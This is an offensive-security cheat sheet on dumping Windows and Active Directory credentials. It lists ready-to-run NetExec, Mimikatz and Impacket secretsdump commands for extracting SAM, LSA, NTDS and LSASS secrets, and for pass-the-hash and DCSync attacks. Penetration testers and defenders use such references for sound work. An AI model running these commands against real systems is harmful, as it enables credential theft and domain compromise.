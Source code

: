 **Credential dumping** refers to extracting authentication material (passwords, hashes, Kerberos tickets, cached credentials) from Windows systems and Active Directory environments. Attackers use these techniques to escalate privileges, move laterally, and gain persistence.


--- 

## Common Targets for Credential Dumping

- **LSASS process memory**: Contains NTLM hashes, Kerberos tickets, and plaintext credentials in some cases.
- **SAM database**: Stores local account password hashes.
- **NTDS**: Active Directory database containing all domain user password hashes.
- **LSA Secrets**: Registry keys storing service account credentials, cached domain logons, and DPAPI keys.
- **Kerberos tickets**: Cached TGTs and service tickets in memory.


---

## NetExec 
**NetExec** is a post‑exploitation framework that  provides modules to dump credentials from multiple sources, including the SAM database, LSA secrets, and NTDS.dit on Domain Controllers. It also integrates techniques for extracting credentials from LSASS memory and parsing application configuration files.

#### Core System Databases

- `--lsa`: Dumps LSA secrets (cached credentials, service account passwords, DPAPI keys).

```bash
nxc smb <target_ip> -u <user> -p <password> --lsa
```

- `--sam`: Dumps local SAM database hashes.

```bash
nxc smb <target_ip> -u <user> -p <password> --sam
```

- `--ntds`: Dumps NTDS.dit database from a Domain Controller (domain user password hashes).

```bash
nxc smb <dc_ip> -u <user> -p <password> --ntds
```

---

#### LSASS and Memory Extraction

- `--lsassy`: Extracts credentials from LSASS memory using LSASSASSY technique.

```bash
nxc smb <target_ip> -u <user> -p <password> --lsassy
```

- `--nanodump`: Dumps LSASS memory using the nanodump method for offline parsing.

```bash
nxc smb <target_ip> -u <user> -p <password> --nanodump
```

---

#### Registry and Secrets

- `--winlogon`: Retrieves Winlogon registry data (may contain autologon credentials).

```bash
nxc smb <target_ip> -u <user> -p <password> --winlogon
```

- `--dpapi`: Dumps DPAPI credentials and master keys.

```bash
nxc smb <target_ip> -u <user> -p <password> --dpapi
```

---

#### Application Credentials

- `--mremoteng`: Extracts stored credentials from mRemoteNG configuration files.

```bash
nxc smb <target_ip> -u <user> -p <password> --mremoteng
```

- `--winscp`: Extracts stored credentials from WinSCP configuration files.

```bash
nxc smb <target_ip> -u <user> -p <password> --winscp
```

- `--putty`: Retrieves PuTTY private key files.

```bash
nxc smb <target_ip> -u <user> -p <password> --putty
```

- `--vnc`: Dumps stored VNC passwords.

```bash
nxc smb <target_ip> -u <user> -p <password> --vnc
```

---

#### User Artifacts

- `--powershell-history`: Retrieves PowerShell command history from user profiles.

```bash
nxc smb <target_ip> -u <user> -p <password> --powershell-history
```

- `--notepadpp`: Extracts Notepad++ session logs (may contain sensitive data).

```bash
nxc smb <target_ip> -u <user> -p <password> --notepadpp
```

- `--wifi`: Extracts saved Wi‑Fi profiles and pre‑shared keys.

```bash
nxc smb <target_ip> -u <user> -p <password> --wifi
```




---
## Mimikatz
Mimikatz is a well‑known tool for credential extraction on Windows. It can read LSASS memory to recover NTLM hashes, Kerberos tickets, and sometimes plaintext passwords. Beyond memory scraping, it supports advanced techniques such as DCSync to replicate domain hashes directly from a Domain Controller, and Pass‑the‑Ticket to inject Kerberos tickets.

To use it, you need to execute Mimikatz:
```bash
mimikatz.exe
privilege::debug
```
Then, you can use its various commands.

#### LSASS Memory

- `sekurlsa::logonpasswords`: Extracts credentials from LSASS memory (NTLM hashes, Kerberos tickets, sometimes plaintext passwords).
- `sekurlsa::tickets`: Lists Kerberos tickets cached in memory.
- `sekurlsa::minidump`: Loads an offline LSASS memory dump for credential extraction.


#### Local Secrets

- `lsadump::sam`: Dumps local SAM database hashes.
- `lsadump::lsa`: Dumps LSA secrets (service account passwords, cached domain credentials, DPAPI keys).


#### Domain Replication

- `lsadump::dcsync`: Performs a DCSync attack to request password hashes directly from a Domain Controller via replication.

#### Other Sensitive Data

- `crypto::certificates`: Lists and exports certificates from the local machine or user store (useful for authentication certificates).

- `dpapi::cred`: Decrypts DPAPI credential blobs (saved credentials, browser passwords, etc.).


---


## Impacket–secretsdump
**Impacket-secretsdump** is part of the Impacket toolkit and focuses on extracting credentials both locally and remotely. It can dump SAM and LSA secrets, parse NTDS.dit offline, or perform DCSync attacks if the account has replication rights. 

#### Local SAM and LSA Secrets

- **Dump local SAM database hashes** (local user accounts).
- **Dump LSA secrets** (cached domain credentials, service account passwords, DPAPI keys).

```bash
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

This requires the registry hive files (`SAM`, `SYSTEM`, `SECURITY`) from the target.

---

#### Remote Dumping with Credentials

- **Dump SAM, LSA, and cached credentials remotely** using valid credentials.

```bash
impacket-secretsdump domain/user:password@<target_ip>
```

- **Pass‑the‑Hash authentication** instead of a password:

```bash
impacket-secretsdump -hashes <LM_hash>:<NT_hash> domain/user@<target_ip>
```

---

#### NTDS.dit (Domain Controller Database)

- **Dump all domain user password hashes** from a Domain Controller.

```bash
impacket-secretsdump domain/admin:password@<dc_ip> -just-dc
```

- **Dump only NTLM hashes**:

```bash
impacket-secretsdump domain/admin:password@<dc_ip> -just-dc-ntlm
```

- **Dump a specific user** (e.g., krbtgt):

```bash
impacket-secretsdump -just-dc-user 'domain\krbtgt' domain/admin:password@<dc_ip>
```

---

#### DCSync Attack

- **Abuse replication privileges** to request password data directly from a DC without touching disk.

```bash
impacket-secretsdump -just-dc domain/admin:password@<dc_ip>
```

If the account has replication rights, this functions as a DCSync.
